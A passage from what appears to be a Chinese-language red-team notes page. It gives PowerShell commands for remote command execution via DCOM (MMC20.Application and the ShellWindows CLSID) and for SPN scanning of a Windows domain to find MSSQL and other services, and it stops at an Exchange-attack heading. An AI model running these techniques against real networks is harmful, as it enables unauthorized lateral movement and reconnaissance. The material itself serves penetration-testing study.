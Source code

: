 ##### [](#%E8%B0%83%E7%94%A8-mmc20_application-%E8%BF%9C%E7%A8%8B%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)调用 MMC20\_Application 远程执行命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>$com=[Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IP"))<br>$com.Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

#### [](#%E8%B0%83%E7%94%A8-9ba05972-f6a8-11cf-a442-00a0c90a8f39)调用 9BA05972-F6A8-11CF-A442-00A0C90A8F39

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>$com=[Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IP")<br>$obj=[System.Activator]::CreateInstance($com)<br>$item=$obj.item()<br>$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32","$null",0)<br>``` |

## [](#spn-%E5%9C%A8%E5%9F%9F%E7%8E%AF%E5%A2%83%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)SPN 在域环境中的使用

### [](#spn-%E6%89%AB%E6%8F%8F)SPN 扫描

PowerShell-AD-Recon

#### [](#%E5%88%A9%E7%94%A8-spn-%E5%8F%91%E7%8E%B0%E5%9F%9F%E4%B8%AD%E6%89%80%E6%9C%89%E7%9A%84-mssql-%E6%9C%8D%E5%8A%A1)利用 SPN 发现域中所有的 MSSQL 服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Discover-PSMSSQLServer.ps1<br>Discover-PSMSSQLServers<br>``` |

#### [](#%E6%89%AB%E6%8F%8F%E5%9F%9F%E4%B8%AD%E6%89%80%E6%9C%89%E7%9A%84-spn-%E4%BF%A1%E6%81%AF)扫描域中所有的 SPN 信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Discover-PSInterestingServices.ps1<br>Discover-PSInterestingServices<br>``` |

在不使用第三方 Powershell 脚本的情况下，输入如下命令查询所有的 SPN 信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>setspn -T domain -q */*<br>``` |

### [](#exchange-%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%94%BB%E5%87%BB)Exchange 邮件服务器攻击

### [](#exchange-%E6%9C%8D%E5%8A%A1%E5%8F%91%E7%8E%B0)Exchange 服务发现

#### [](#%E5%9F%BA%E4%BA%8E%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F%E5%8F%91%E7%8E%B0)基于端口扫描发现
